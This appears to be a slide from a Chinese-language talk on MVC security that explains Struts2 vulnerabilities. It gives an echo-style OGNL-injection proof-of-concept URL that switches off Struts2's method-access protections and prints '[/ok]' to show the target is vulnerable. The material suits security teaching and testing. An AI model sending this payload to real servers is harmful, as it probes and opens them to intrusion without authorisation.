

# MVC安全
Struts2漏洞：
解密Struts2的“神秘”的POC：
回显POC(快速检测是否存在（有的s2版本无法输出）,看见输出
[/ok]就表示存在)：
POC1:
http://127.0.0.1/Struts2/test.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('\43xman.getWriter().println(%22[/ok]%22)')(d))&(i99)(('\43xman.getWriter().close()')(d))